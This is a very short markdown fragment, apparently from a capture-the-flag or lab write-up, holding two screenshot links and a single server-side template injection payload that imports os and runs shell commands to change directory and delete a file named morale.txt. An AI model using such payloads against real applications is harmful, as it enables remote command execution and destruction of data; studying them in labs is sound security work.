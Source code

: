 ![image.png](Images/image%2011.png)

![image.png](Images/image%2012.png)

Payload: `{% import os ; os.system("cd .."); os.system("rm morale.txt")%}`
